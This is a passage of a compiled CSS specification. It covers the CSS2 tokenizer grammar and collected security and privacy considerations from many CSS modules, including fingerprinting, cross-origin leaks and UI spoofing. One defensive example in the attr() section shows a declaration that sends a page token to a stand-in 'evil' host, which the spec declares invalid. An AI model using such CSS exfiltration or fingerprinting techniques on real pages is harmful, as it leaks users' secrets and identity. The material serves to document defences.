{ident}			{return IDENT;}

"#"{name}		{return HASH;}

@{I}{M}{P}{O}{R}{T}	{return IMPORT_SYM;}
@{P}{A}{G}{E}		{return PAGE_SYM;}
@{M}{E}{D}{I}{A}	{return MEDIA_SYM;}
"@charset "		{return CHARSET_SYM;}

"!"({w}|{comment})*{I}{M}{P}{O}{R}{T}{A}{N}{T}	{return IMPORTANT_SYM;}

{num}{E}{M}		{return EMS;}
{num}{E}{X}		{return EXS;}
{num}{P}{X}		{return LENGTH;}
{num}{C}{M}		{return LENGTH;}
{num}{M}{M}		{return LENGTH;}
{num}{I}{N}		{return LENGTH;}
{num}{P}{T}		{return LENGTH;}
{num}{P}{C}		{return LENGTH;}
{num}{D}{E}{G}		{return ANGLE;}
{num}{R}{A}{D}		{return ANGLE;}
{num}{G}{R}{A}{D}	{return ANGLE;}
{num}{M}{S}		{return TIME;}
{num}{S}		{return TIME;}
{num}{H}{Z}		{return FREQ;}
{num}{K}{H}{Z}		{return FREQ;}
{num}{ident}		{return DIMENSION;}

{num}%			{return PERCENTAGE;}
{num}			{return NUMBER;}

"url("{w}{string}{w}")" {return URI;}
"url("{w}{url}{w}")"    {return URI;}
{baduri}                {return BAD_URI;}

{ident}"("		{return FUNCTION;}

.			{return *yytext;}
```

#### Comparison of tokenization in CSS2 (1998) and CSS1 {#css2:tokenizer-diffs}

There are some differences in the syntax specified in the CSS1 recommendation ([CSS1]), and the one above. Most of these are due to new tokens in CSS2 that did not exist in CSS1. Others are because the grammar has been rewritten to be more readable. However, there are some incompatible changes, that were felt to be errors in the CSS1 syntax. They are explained below.

- CSS1 style sheets could only be in 1-byte-per-character encodings, such as ASCII and ISO-8859-1. CSS 2 has no such limitation. In practice, there was little difficulty in extrapolating the CSS1 tokenizer, and some UAs have accepted 2-byte encodings.
- CSS1 only allowed four hex-digits after the backslash (\) to refer to Unicode characters, CSS2 allows six. Furthermore, CSS2 allows a white space character to delimit the escape sequence. E.g., according to CSS1, the string "\abcdef" has 3 letters (\abcd, e, and f), according to CSS2 it has only one (\abcdef).
- The tab character (ASCII 9) was not allowed in strings. However, since strings in CSS1 were only used for font names and for URLs, the only way this can lead to incompatibility between CSS1 and CSS2 is if a style sheet contains a font family that has a tab in its name.
- Similarly, newlines ([escaped with a backslash](#css2:strings)) were not allowed in strings in CSS1.
- CSS2 parses a number immediately followed by an identifier as a DIMENSION token (i.e., an unknown unit), CSS1 parsed it as a number and an identifier. That means that in CSS1, the declaration 'font: 10pt/1.2serif' was correct, as was 'font: 10pt/12pt serif'; in CSS2, a space is required before "serif". (Some UAs accepted the first example, but not the second.)
- In CSS1, a class name could start with a digit (".55ft"), unless it was a dimension (".55in"). In CSS2, such classes are parsed as unknown dimensions (to allow for future additions of new units). To make ".55ft" a valid class, CSS2 requires the first digit to be escaped (".\35 5ft")

#### Implementation note {#css2:implementation-note}

The lexical scanner for the CSS core syntax in [section 4.1.1](#css2:tokenization) can be implemented as a scanner without back-up. In Lex notation, that requires the addition of the following patterns (which do not change the returned tokens, only the efficiency of the scanner):

```
{ident}/\\          return IDENT;
#{name}/\\          return HASH;
@{ident}/\\         return ATKEYWORD;
#/\\                return DELIM;
@/\\                return DELIM;
@/-                 return DELIM;
@/-\\               return DELIM;
-/\\                return DELIM;
-/-                 return DELIM;
\</!                return DELIM;
\</!-               return DELIM;
{num}{ident}/\\     return DIMENSION;
{num}/\\            return NUMBER;
{num}/-             return NUMBER;
{num}/-\\           return NUMBER;
[0-9]+/\.           return NUMBER;
u/\+                return IDENT;
u\+[0-9a-f?]{1,6}/- return UNICODE_RANGE;
```

### Appendix H: Has been intentionally left blank {#css2:leftblank}

---

## Security and Privacy Considerations {#security-and-privacy}

### CSS Syntax Module Level 3 (`css-syntax-3`) {#security-privacy:css-syntax-3}

#### 11.  Security Considerations {#css-syntax-3:security}

This specification improves security, in that CSS parsing is now unambiguously defined for all inputs.

Insofar as old parsers, such as whitelists/filters, parse differently from this specification, they are somewhat insecure, but the previous parsing specification left a lot of ambiguous corner cases which browsers interpreted differently, so those filters were potentially insecure already, and this specification does not worsen the situation.

### CSS Values and Units Module Level 4 (`css-values-4`) {#security-privacy:css-values-4}

#### Security Considerations {#css-values-4:security}

This specification presents no new security considerations.

This specification defines the `url()` and `src()` functions (`<url>`), which allow CSS to make network requests. Depending on what features they are used in, these can potentially expose whether or not the user has access to resources on a network, and expose information about their contents (such as the rules within a style sheet, the size of an image, the metrics of a font). They can also allow exfiltrating data via URL.

#### Privacy Considerations {#css-values-4:privacy}

This specification defines units that expose the user’s screen size (the viewport-percentage lengths), default font size, and potentially some information about which fonts are available on the user’s system (the font-relative lengths).

This specification defines the `url()` and `src()` functions (`<url>`), which allow CSS to make network requests. Depending on what features they are used in, these can potentially expose whether or not the user has access to resources on a network, and expose information about their contents (such as the rules within a style sheet, the size of an image, the metrics of a font). They can also allow exfiltrating data via URL.

### CSS Values and Units Module Level 5 (`css-values-5`) {#security-privacy:css-values-5}

###### 8.7.2.  Security {#css-values-5:attr-security}

An `attr()` function can reference attributes that were never intended by the page to be used for styling, and might contain sensitive information (for example, a security token used by scripts on the page).

In general, this is fine. It is difficult to use `attr()` to extract information from a page and send it to a hostile party, in most circumstances. The exception to this is URLs. If a URL can be constructed with the value of an arbitrary attribute, purely from CSS, it can easily send any information stored in attributes to a hostile party, if 3rd-party CSS is allowed at all.

To guard against this, the values produced by an `attr()` are considered **attr()-tainted**, as are functions that contain an attr()-tainted value.

The substitution value of an arbitrary substitution function is attr()-tainted *as a whole* if any attr()-tainted values were involved in creating that substitution value. This extends to the equivalent token sequence when substituting values of registered custom properties.

Using an attr()-tainted value as or in a `<url>` makes a declaration invalid at computed-value time.

> **Example:** For example, all of the following are invalid at computed-value time:
>
> - `background-image: src(attr(foo));` - can’t use it directly.
> - `background-image: image(attr(foo))` - can’t use it in other `<url>`-taking functions.
> - `background-image: src(string("http://example.com/evil?token=" attr(foo)))` - can’t "launder" it thru another function.
> - `--foo: attr(foo); background-image(src(var(--foo)))` (assuming that `--foo` is a registered custom property with string syntax) - can’t launder the value thru another property, either.
>
> However, using `attr()` for other purposes is fine, even if the usage is *near* a url:
>
> - `background-image: image("foo.jpg", attr(bgcolor type(<color>)))` is fine; the `attr()` is providing a fallback color, and the `<url>` isn’t attr()-tainted.
>
> Using `attr()` indirectly via a custom property causes attr()-tainting of the whole custom property value:
>
> - `--foo: image("foo.jpg", attr(bgcolor type(<color>))); background-image: var(--foo);` is invalid at computed-value time.
>
>   > **Issue:** Investigate partial tainting of custom property values.

> **Note:** Implementing this restriction requires tracking a dirty bit on values constructed from `attr()` values, since they can be fully resolved into a string via registered custom properties, so you can’t rely on just examining the value expression. Note that non-string types can even trigger this, via functions like `string()` that can stringify other types of values: `--foo: attr(foo type(<number>)); background-image: src(string(var(--foo)))` needs to be invalid as well.

#### Security Considerations {#css-values-5:security}

This specification allows CSS `<url>` values to have various aspects of their request modified. Although this is new to CSS, every ability is already present in `img` or `link`, as well as via JavaScript.

The `attr()` function allows HTML attribute values to be used in CSS values, potentially exposing sensitive information that was previously not accessible via CSS. See [§ 8.7.2 Security](#css-values-5:attr-security).

#### Privacy Considerations {#css-values-5:privacy}

This specification defines units that expose the user’s screen size and default font size, but both are trivially observable from JS, so they do not constitute a new privacy risk. Similarly the `media-progress()` notation exposes information about the user’s environment and preferences that are already observiable via media queries.

The `attr()` function allows HTML attribute values to be used in CSS values, potentially exposing sensitive information that was previously not accessible via CSS. See [§ 8.7.2 Security](#css-values-5:attr-security).

### CSS Cascading and Inheritance Module Level 5 (`css-cascade-5`) {#security-privacy:css-cascade-5}

#### Privacy Considerations {#css-cascade-5:privacy}

- The cascade process does not distinguish between same-origin and cross-origin stylesheets, enabling the content of cross-origin stylesheets to be inferred from the computed styles they apply to a document.
- User preferences and UA defaults expressed via application of style rules are exposed by the cascade process, and can be inferred from the computed styles they apply to a document.
- The `@import` rule assumes that resources without [`Content-Type` metadata](https://html.spec.whatwg.org/multipage/urls-and-fetching.html#content-type) (or any same-origin file if the host document is in quirks mode) are `text/css`, potentially allowing arbitrary files to be imported into the page and interpreted as CSS, potentially allowing sensitive data to be inferred from the computed styles they apply to a document.

#### Security Considerations {#css-cascade-5:security}

- The `@import` rule does not apply the CORS protocol to loading cross-origin stylesheets, instead allowing them to be freely imported and applied.

### CSS Cascading and Inheritance Module Level 6 (`css-cascade-6`) {#security-privacy:css-cascade-6}

#### 6.  Privacy Considerations {#css-cascade-6:privacy}

- User preferences and UA defaults expressed via application of style rules are exposed by the cascade process, and can be inferred from the computed styles they apply to a document.

#### 7.  Security Considerations {#css-cascade-6:security}

- The cascade process does not distinguish between same-origin and cross-origin stylesheets, enabling the content of cross-origin stylesheets to be inferred from the computed styles they apply to a document.
- The `@import` rule does not apply the CORS protocol to loading cross-origin stylesheets, instead allowing them to be freely imported and applied.
- The `@import` rule assumes that resources without [`Content-Type` metadata](https://html.spec.whatwg.org/multipage/urls-and-fetching.html#content-type) (or any same-origin file if the host document is in quirks mode) are `text/css`, potentially allowing arbitrary files to be imported into the page and interpreted as CSS, potentially allowing sensitive data to be inferred from the computed styles they apply to a document.

### CSS Custom Properties for Cascading Variables Module Level 2 (`css-variables-2`) {#security-privacy:css-variables-2}

#### 7. Privacy Considerations {#css-variables-2:privacy}

This specification defines a purely author-level mechanism for passing styling information around within a page they control. As such, there are no new privacy considerations.

#### 8. Security Considerations {#css-variables-2:security}

[CSS Values 5 §  Safely Handling Overly-Long Substitution](#css-values-5:long-substitution) calls out a long-standing Denial-of-Service attack that can be mounted against "macro-expansion"-like mechanisms, such as the `var()` function, and mandates a defense against that attack.

### CSS Environment Variables Module Level 1 (`css-env-1`) {#security-privacy:css-env-1}

#### 4.  Privacy Considerations {#css-env-1:priv}

The environment variables defined by this specification are *potentially* privacy-sensitive, since they represent additional information potentially not already avaialble to the page. In particular, they potentially represent a fingerprinting vector, by exposing additional information about the device a user is viewing the page with.

So far, the environment variables defined by this specification have been reviewed and deemed acceptable to expose by the CSSWG.

#### 5.  Security Considerations {#css-env-1:sec}

This specification provides read-only access to some new types of information about the device.

The environment variables defined by this specification do not expose any security-sensitive information.

### CSS Custom Functions and Mixins Module Level 1 (`css-mixins-1`) {#security-privacy:css-mixins-1}

#### 8. Privacy Considerations {#css-mixins-1:privacy}

The constructs defined by this specification are defined and used entirely within CSS; they expose no new information.

### CSS Conditional Values Module Level 1 (`css-conditional-values-1`) {#security-privacy:css-conditional-values-1}

#### 4. Privacy Considerations {#css-conditional-values-1:privacy}

This specification defines a purely author-level mechanism for specifying conditionals on styling information within a page they control. As such, there are no new privacy considerations.

#### 5. Security Considerations {#css-conditional-values-1:security}

This specification defines a purely author-level mechanism for specifying conditionals on styling information within a page they control. As such, there are no new security considerations.

### CSS Linked Parameters Module Level 1 (`css-link-params-1`) {#security-privacy:css-link-params-1}

#### Security Considerations {#css-link-params-1:sec}

This specification introduces a new way to pass information to a linked resource, potentially from a hostile source.

While no explicit handshake is established for this channel, the use of `env()` to use the information minimizes the chance that the linked resource can be *surprised* by the information. The only way for the page to be vulnerable is to somehow be using an *unknown* `env()` in their styles, which will just result in invalid properties by default, and be visible in the developer’s Dev Tools.

Any hostile information can also only affect individual CSS properties that the resource explicitly opts itself into.

### Selectors Level 4 (`selectors-4`) {#security-privacy:selectors-4}

#### Privacy Considerations {#selectors-4:privacy}

- The `:visited` pseudo-class can expose information about which sites a user has previously visited, if the UA is not careful to screen from scripting any information that would reveal which elements match it.
- The `:autofill` pseudo-class can expose whether a user has interacted with this form before; however the same information can be derived by observing how quickly the form is filled out.

#### Security Considerations {#selectors-4:security}

The [Privacy Considerations](#selectors-4:privacy) could also be considered to affect Security.

### Selectors Level 5 (`selectors-5`) {#security-privacy:selectors-5}

#### Privacy Considerations {#selectors-5:privacy}

Should be copied from Level 4 when appropriate.

#### Security Considerations {#selectors-5:security}

Should be copied from Level 4 when appropriate.

### CSS Pseudo-Elements Module Level 4 (`css-pseudo-4`) {#security-privacy:css-pseudo-4}

#### Security Considerations {#css-pseudo-4:security}

For highlighting, see [§ 3.7 Security Considerations for Highlighting](#css-pseudo-4:highlight-security).

### CSS Shadow Module Level 1 (`css-shadow-1`) {#security-privacy:css-shadow-1}

#### 7. Privacy Considerations {#css-shadow-1:privacy}

This specification introduces Shadow DOM and some shadow-piercing capabilities, but this does not introduce any privacy issues —​shadow DOM, as currently specified, is intentionally not a privacy boundary (and the parts of the UA that use shadow DOM and *do* have a privacy boundary implicitly rely on protections not yet specified, which protect them from the things defined in this specification).

#### 8. Security Considerations {#css-shadow-1:security}

This specification introduces Shadow DOM and some shadow-piercing capabilities, but this does not introduce any security issues —​shadow DOM, as currently specified, is intentionally not a security boundary, merely a convenience for page authors. Exposing shadow trees to selectors in this way introduces no new security considerations. (And the parts of the UA that use shadow DOM and *do* have a security boundary implicitly rely on protections not yet specified, which protect them from the things defined in this specification).

### Media Queries Level 5 (`mediaqueries-5`) {#security-privacy:mediaqueries-5}

#### Privacy Considerations {#mediaqueries-5:privacy}

*This section is not normative.*

> **Issue:** this section is [incomplete](https://github.com/w3c/csswg-drafts/issues?q=is%3Aopen+is%3Aissue+label%3Amediaqueries-5+label%3Aprivacy-tracker)

Many media features enable fingerprinting of users based on the display and interaction characteristics of their device:

- [Colors](#mediaqueries-5:mf-colors): `color`, `color-index`, `monochrome`, `color-gamut` and `dynamic-range`
- [Viewport characteristics](#mediaqueries-5:mf-viewport-characteristics): `aspect-ratio`, `orientation`, `horizontal-viewport-segments` and `vertical-viewport-segments`
- [Display quality](#mediaqueries-5:mf-display-quality): `resolution`, `scan`, `grid`, `update` and `environment-blending`
- [Interaction devices](#mediaqueries-5:mf-interaction): `pointer`, `hover`, `any-pointer` and `any-hover`.

The `environment-blending` feature is of particular concern because it suggests *where* a user may be located, and is likely present in a small set of devices. Uncommon device properties are stronger fingerprinting features because they help segment devices into smaller sets.

Similarly, some devices might allow a user to have their preferred color scheme automatically change based on the time of day—​`light` during the day and `dark` at night—​which can implicitly reveal location information based on sunrise/sunset timing. (Longitude, quite easily, and possibly latitude if tracked over time.) While this might be done at a higher level than the UA (automatically in the OS, for example), if possible, care can be taken to make this a less accurate signal, such as bucketing based on time zone (which is already exposed via JS).

Media features that reflect operating system preferences are a fingerprinting risk because such preferences are correlated with characteristics of the user themselves:

- The `prefers-reduced-data` media feature may be correlated with low income and limited data.
- The `prefers-reduced-motion`, `prefers-color-scheme`, `prefers-reduced-transparency`, `prefers-bold-text`, `forced-colors` and `inverted-colors` queries reflect affordances for a range of special needs.

Properties dependent on one of the above media queries may be accessed by script:

- Colors and other property values may be directly accessed through computed style, though user agents may elect to return constants for some colors (see, for example, [CSS Color 4](#css-color-4:css-system-colors)).
- Layout affecting properties (such as font size) influence lengths, positions and sizes available to script.

User agents may disable these media features when users have expressed sensitivity to tracking. Alternatively, user agents may limit the combination of features within a single page to reduce the fingerprinting power of the page.

The `PreferenceManager` object allows querying some user-preference media features. This is not a privacy leak, as that information is already trivially available by using media features themselves.

The `PreferenceManager` object also allows overriding these user-preference media features; this is also neither a privacy nor accessibility regression, as the media features were already ignorable by simply not querying them.

#### Security Considerations {#mediaqueries-5:security}

*This section is not normative.*

> **Issue:** this section is [incomplete](https://github.com/w3c/csswg-drafts/issues?q=is%3Aopen+is%3Aissue+label%3Amediaqueries-5+label%3Asecurity-tracker+)

The `display-mode` media feature allows an origin access to aspects of a user’s local computing environment and, particularly when used together with an application manifest display member [APPMANIFEST], allows an origin some measure of control over a user agent’s native UI. Through a CSS media query, a script can know the display mode of a web application. An attacker could, in such a case, exploit the fact that an application is being displayed in fullscreen to mimic the user interface of another application.

### CSS Conditional Rules Module Level 3 (`css-conditional-3`) {#security-privacy:css-conditional-3}

#### Privacy Considerations {#css-conditional-3:privacy}

Various features in this specification, associated mainly with the `@media` rule but also to some degree with the `@supports` rule, provide information to Web content about the user’s hardware and software and their configuration and state. Most of the information is provided through the features in [MEDIAQUERIES-4] rather than through the features in this specification. However, the `@supports` rule may provide some additional details about the user’s software and whether it is running with non-default settings that may enable or disable certain features.

Most of this information can also be determined through other APIs. However, the features in this specification are one of the ways this information is exposed on the Web.

This information can also, in aggregate, be used to improve the accuracy of [fingerprinting](https://www.w3.org/2001/tag/doc/unsanctioned-tracking/) of the user.

### CSS Conditional Rules Module Level 4 (`css-conditional-4`) {#security-privacy:css-conditional-4}

#### Privacy Considerations {#css-conditional-4:privacy}

The `selector()` function may provide information about the user’s software such as its version and whether it is running with non-default settings that enable or disable certain features.

This information can also be determined through other APIs. However, the features in this specification are one of the ways this information is exposed on the Web.

This information can also, in aggregate, be used to improve the accuracy of [fingerprinting](https://www.w3.org/2001/tag/doc/unsanctioned-tracking/) of the user.

### CSS Conditional Rules Module Level 5 (`css-conditional-5`) {#security-privacy:css-conditional-5}

#### Privacy Considerations {#css-conditional-5:privacy}

The `font-tech()` and `font-format()` functions may provide information about the user’s software such as its version and whether it is running with non-default settings that enable or disable certain features.

This information can also be determined through other APIs. However, the features in this specification are one of the ways this information is exposed on the Web.

This information can also, in aggregate, be used to improve the accuracy of [fingerprinting](https://www.w3.org/2001/tag/doc/unsanctioned-tracking/) of the user.

### CSS Box Sizing Module Level 3 (`css-sizing-3`) {#security-privacy:css-sizing-3}

#### Privacy Considerations {#css-sizing-3:privacy}

In order to support automatic layout, CSS sizes boxes to fit their contents. In conjunction with various [DOM] and [CSSOM] APIs which can return the size of those boxes to script, this can expose information about those contents. However, this information is more directly and easily available by inspecting the DOM for the contents, rather than indirecting through the box’s size. Containers that can’t have their contents inspected (such as cross-origin `iframe`s) also do not expose sizing information to the outer page, except insofar as replaced elements such as images expose their natural size and/or aspect ratio.

### CSS Containment Module Level 2 (`css-contain-2`) {#security-privacy:css-contain-2}

#### 6.  Security Considerations {#css-contain-2:security}

There are no known security impacts of the features in this specification.

Like any other CSS specification, it affects the rendering of the document, but does not introduce any special ability to present content in a misleading way that was not previously available through other CSS modules and that isn’t inherent to the act of formatting the document.

### CSS Gaps Module Level 1 (`css-gaps-1`) {#security-privacy:css-gaps-1}

#### 6.  Privacy Considerations {#css-gaps-1:privacy}

Support for the gap decoration properties is observable through `@supports` and can contribute, in aggregate, to browser fingerprinting.

Gap decoration painting affected by `:visited` is subject to considerations for user agents to preserve user privacy in [Selectors 4 § 8.2 The Link History Pseudo-classes: :link and :visited](#selectors-4:link).

### CSS Positioned Layout Module Level 3 (`css-position-3`) {#security-privacy:css-position-3}

#### Security Considerations {#css-position-3:security}

If an attacker is able to inject arbitrary CSS, positioned layout can make it easier to position elements the attacker has control of over arbitrary other elements of the page, potentially tricking users of the page. (There are many routes to this attack: negative `margin`, `transform`, etc. Don’t let people apply arbitrary CSS to bits of your page.)

`position: fixed` can allow a page to emulate modal dialogs, potentially tricking a user into thinking they’re interacting with the user agent and entering in sensitive information that they page can then capture. User agents must ensure that their native dialogs are positioned in ways that the page cannot emulate; in particular, that at least some of the dialog is outside the "poisoned pixels" that web content can paint to.

### CSS Shapes Module Level 1 (`css-shapes-1`) {#security-privacy:css-shapes-1}

#### 8. Security Considerations {#css-shapes-1:security}

Since the `<image>` value of `shape-outside` can expose some image data in a new way, use is limited to images with CORS approval.

### CSS Fonts Module Level 4 (`css-fonts-4`) {#security-privacy:css-fonts-4}

#### 14.  Security Considerations {#css-fonts-4:security}

See items [9](#css-fonts-4:sp209), [16](#css-fonts-4:sp216) and [17](#css-fonts-4:sp217) in the self-review questionnaire below.

#### 15.  Privacy Considerations {#css-fonts-4:privacy}

Following [Self-Review Questionnaire: Security and Privacy](https://www.w3.org/TR/security-privacy-questionnaire/#questions), and using the [§ 10 Font Taxonomy](#css-fonts-4:font-taxonomy):

##### 15.1. What information might this feature expose to Web sites or other parties, and for what purposes is that exposure necessary? {#css-fonts-4:sp201}

This specification allows the use of Web Fonts, which are requested on demand but are not installed. In the case where the document or stylesheet has a different origin to the Web Font, this network request exposes information in the Referer header, which may be harvested by font providers.

In addition to Web Fonts, this specification continues to allow the use of Installed Fonts (both Preinstalled Fonts and User-Installed Fonts) as introduced in CSS1.

While Web Fonts have the advantage of consistency across platforms, Installed Fonts have the advantage of zero download time.

In some cases, and particularly for poorly-supported or minority languages, Installed Fonts allow information to be displayed which could not otherwise be displayed because there is no freely licensable Web Font which supports that language or because the latency or download time would make it’s use infeasible, particularly for languages with a large character repertoire, or on slow or metered connections.

> **Note:** The set of [installed fonts](#css-fonts-4:installed-fonts) available in the [Font Matching Algorithm](#css-fonts-4:font-matching-algorithm) is explicitly undefined. The available set of fonts [is](https://panopticlick.eff.org) used by trackers to fingerprint users and reduce their privacy. However, some [installed fonts](#css-fonts-4:installed-fonts), even some [user-installed fonts](#css-fonts-4:preinstalled-and-user-installed-fonts), are required to make languages readable. User agents may choose to make all installed fonts available for language support and design integrity reasons, or may choose to make some fonts unavailable for privacy reasons. In addition, user agents may have additional facilities for fine-tuning this balance, such as interfaces which prompt users to explicitly make certain requested fonts available or unavailable (perhaps on a per-site basis). Different user agents, even running on the same Operating System, are expected to strike different balances here.

In the case of user agents which perform rendering of local resources (such as an HTML and CSS to PDF renderer, or a Web-based wordprocessor) access to all Installed Fonts (both Preinstalled Fonts and User-Installed Fonts) is necessary to provide the expected functionality.

An attacker may obtain fingerprinting information by querying the Installed Fonts. In contrast to older technologies (notably Adobe Flash, which provided a complete list of Installed Fonts and sent this information in HTTP headers) such probing must be done one font at a time, providing the font family name and then checking (either via script, or by using unicode-range to selectively download webfonts depending on whether the user has a font by a certain name that supports a certain character) whether the font was loaded. This takes time, and checking for more than a few hundred fonts introduces a noticeable delay in page rendering.

For *especially privacy-sensitive contexts*, options would include never downloading any webfonts (at the risk that some characters may be rendered incorrectly, or not at all), or always downloading all webfonts whether needed or not (ignoring unicode-range, and potentially downloading vast quantities of unused fonts each time the page is viewed).

##### 15.2. Is this specification exposing the minimum amount of information necessary to power the feature? {#css-fonts-4:sp202}

An emerging consensus is that a user agent must expose Preinstalled Fonts for correct functioning, but there is no consensus on exposing User-Installed Fonts. This specification  [allows a user agent](#css-fonts-4:preinstalled-and-user-installed-fonts) to ignore User-Installed Fonts for the purpose of the Font Matching Algorithm. Several existing user agents already do this.

The minimum amount varies by type of user and is [currently being debated](https://github.com/w3c/csswg-drafts/issues/4497). There is a useful [taxonomy of User-Installed Font users](https://github.com/w3c/csswg-drafts/issues/4055#issuecomment-536169515) which has been  [slightly extended](https://github.com/w3c/csswg-drafts/issues/4055#issuecomment-536815201).

A permissive amount of information exposes potentially more fingerprinting information; a restrictive amount of information reduces fingerprinting but also reduces functionality and in some cases, for minority languages, would break the Web completely for those users.

The possibility of a configurable, per-user opt-in to exposing some or all User-Installed Fonts, or a per-origin opt-in, is being discussed.

The possibility of a privacy budget, which would penalize or disable a malicious web page which tested a large number of fonts, but allow a harmless page which tested a much smaller number, has also been discussed.

Some user agents expose a more restricted set of Preinstalled Fonts in their Private Browsing, Incognito, or Resist Fingerprinting modes, compared to their normal mode.

##### 15.3. How does this specification deal with personal information or personally-identifiable information or information derived thereof? {#css-fonts-4:sp203}

Personal information is not exposed by this specification.

Personally identifiable information may be exposed in some cases. For example, for someone in Japan, having conditionally-enabled Japanese fonts enumerable probably isn’t a substantial fingerprinting vector. For someone in Europe who has a Japanese IME in the text input menu, they are.

##### 15.4. How does this specification deal with sensitive information? {#css-fonts-4:sp204}

Fingerprinting on Installed Fonts may expose sensitive information in some cases. For example, persecuted minorities risk leaking sensitive information by exposing that they use fonts required for a persecuted minority language; either by requesting a Web Font from a third party service, or exposing Preinstalled Fonts or User-Installed Fonts associated with that language.

##### 15.5. Does this specification introduce new state for an origin that persists across browsing sessions? {#css-fonts-4:sp205}

No.

Specifically, Web Fonts [must not be accessible in any other Document from the one which either is associated with the @font-face rule or owns the FontFaceSet. Other applications on the device must not be able to access Web Fonts.](#css-fonts-4:web-fonts) This avoids information leaking across origins.

Similarly, font palette values [must only be available to the documents that reference it](#css-fonts-4:font-palette-values). Using an author-defined color palette outside of the documents that reference it would constitute a security leak since the contents of one page would be able to affect other pages, something an attacker could use as an attack vector.

##### 15.6. What information from the underlying platform, e.g. configuration data, is exposed by this specification to an origin? {#css-fonts-4:sp206}

The `system-ui` keyword exposes the operating system’s default system UI font to fingerprinting mechanisms.

##### 15.7. Does this specification allow an origin access to sensors on a user’s device {#css-fonts-4:sp207}

No.

##### 15.8. What data does this specification expose to an origin? Please also document what data is identical to data exposed by other features, in the same or different contexts. {#css-fonts-4:sp208}

For third-party Web Fonts loaded via a stylesheet, the stylesheet origin may be exposed to the third party in the Referer header. In addition, careful pairing of unicode-range and distinct src urls allows the third-party to see which characters are used on a page, which is a privacy risk for large character repertoire scripts such as CJK.

For third-party Web Fonts preloaded in the HTML, the document origin may be similarly exposed.

##### 15.9. Does this specification enable new script execution/loading mechanisms? {#css-fonts-4:sp209}

No.

Specifically, for SVG-in-OpenType color fonts, the SVG used for glyph definitions should not contain script elements, and any script elements that do occur will not be executed.

##### 15.10. Does this specification allow an origin to access other devices? {#css-fonts-4:sp210}

No.

##### 15.11. Does this specification allow an origin some measure of control over a user agent’s native UI? {#css-fonts-4:sp211}

There is some risk that an attacker can spoof a native UI feature by determining the Operating System and using native-looking fonts appropriate to that Operating System.

##### 15.12. What temporary identifiers might this specification create or expose to the web? {#css-fonts-4:sp212}

None.

##### 15.13. How does this specification distinguish between behavior in first-party and third-party contexts? {#css-fonts-4:sp213}

[For font loads](#css-fonts-4:font-fetching-requirements), user agents must use the potentially CORS-enabled fetch method defined by the [HTML] specification for URLs defined within @font-face rules. When fetching, user agents must use "Anonymous" mode, set the referrer source to the stylesheet’s URL and set the origin to the URL of the containing document.

Thus, fonts will typically not be loaded cross-origin unless authors specifically take steps to permit cross-origin loads.

##### 15.14. How does this specification work in the context of a user agent’s Private Browsing or "incognito" mode? {#css-fonts-4:sp214}

The specification makes no distinction.

Some user agents may expose a more restricted set of Installed Fonts in these modes.

##### 15.15. Does this specification have a "Security Considerations" and "Privacy Considerations" section? {#css-fonts-4:sp215}

Yes.

##### 15.16. Does this specification allow downgrading default security characteristics? {#css-fonts-4:sp216}

No.

##### 15.17. What should this questionnaire have asked? {#css-fonts-4:sp217}

It should have asked whether a malicious payload could crash the application, or indeed the entire Operating System, or even cause remote code execution.

This possibility does exist for suitably crafted fonts on some platforms when fonts are installed and rendered, and this has been exploited in the wild.

In practice, user agents running on Operating Systems with this vulnerability use a font sanitizer to detect such malformed or malicious fonts and prevent their being used.

### CSS Font Loading Module Level 3 (`css-font-loading-3`) {#security-privacy:css-font-loading-3}

#### Privacy Considerations {#css-font-loading-3:privacy}

The `FontFaceSet` object leaks information about the user’s installed fonts, but in the exact same way as the existing `@font-face` rule; no new information is leaked, or in any appreciably easier manner.

### CSS Text Module Level 4 (`css-text-4`) {#security-privacy:css-text-4}

#### Privacy Considerations {#css-text-4:priv}

This specification leaks the user’s installed hyphenation and line-breaking dictionaries.

### CSS Color Module Level 4 (`css-color-4`) {#security-privacy:css-color-4}

#### 21. Security Considerations {#css-color-4:security}

The system colors, if they actually correspond to the user’s system colors, pose a security risk, as they make it easier for a malware site to create user interfaces that appear to be from the system. However, as several system colors are now defined to be "generic", this risk is believed to be mitigated.

#### 22. Privacy Considerations {#css-color-4:privacy}

This specification defines "system" colors, which theoretically can expose details of the user’s OS settings, which is a fingerprinting risk.

### CSS Color Module Level 5 (`css-color-5`) {#security-privacy:css-color-5}

#### 15.  Security Considerations {#css-color-5:security}

This specification adds to CSS the on-demand downloading of ICC profiles. These do not contain executable code, and thus do not constitute an increased security risk.

### CSS Color HDR Module Level 1 (`css-color-hdr-1`) {#security-privacy:css-color-hdr-1}

#### Privacy Considerations {#css-color-hdr-1:privacy}

The reason that numerical values of HDR headroom are not directly exposed by the Web platform is because doing so would expose the current viewing conditions, which would be a [privacy violation](#css-color-hdr-1:headroom-privacy).

### CSS Color Adjustment Module Level 1 (`css-color-adjust-1`) {#security-privacy:css-color-adjust-1}

#### 6. Privacy Considerations {#css-color-adjust-1:privacy}

Applying user color preferences via color schemes or forced colors mode exposes the user’s color preferences to the page via `getComputedStyle()`, which can increase fingerprinting surface.

> **Note:** Avoiding this comes with unfortunate drawbacks that were deemed too significant to be ignored. Namely:
>
> - preserving system colors as keywords until actual-value time would break a significant amount of deployed script, as the initial value of `color` is a system color already (but a huge amount of script implicitly expects to see an RGB color from `color`)
> - lying about system colors from the scripting APIs (pretending they’re always some static values) can result in any colors calculated *from* page colors in script being unreadable when used with the *actual* system colors.
>
> See [Issue 5710](https://github.com/w3c/csswg-drafts/issues/5710#issuecomment-840772752) for discussion on this topic.

Embedded documents (even cross-origin ones) recieve their embedding element’s element color scheme as their preferred color scheme, which is technically a bit of cross-site communication. This was not considered a significant problem by browser security reviewers, and the user benefit of having pages and, particularly, SVG images automatically adapt to the parent page’s color scheme was considered valuable enought to warrant it.

#### 7. Security Considerations {#css-color-adjust-1:security}

It may be possible for an embedded document to use timing attacks to determine whether its own `color-scheme` matches that of its embedding `iframe` or not.

### CSS Images Module Level 3 (`css-images-3`) {#security-privacy:css-images-3}

#### Security Considerations {#css-images-3:security}

This specification allows rendering of cross-origin images by default, which exposes some information of those images programmatically—​specifically, the natural dimensions and resolution of those images.

### CSS Images Module Level 4 (`css-images-4`) {#security-privacy:css-images-4}

#### 9. Privacy Considerations {#css-images-4:privacy}

> **Note:** No change from [css-images-3].

#### 10. Security Considerations {#css-images-4:security}

> **Note:** No change from [css-images-3].

### CSS Image Animation Module Level 1 (`css-image-animation-1`) {#security-privacy:css-image-animation-1}

#### 6. Privacy Considerations {#css-image-animation-1:priv}

*This section is non-normative.*

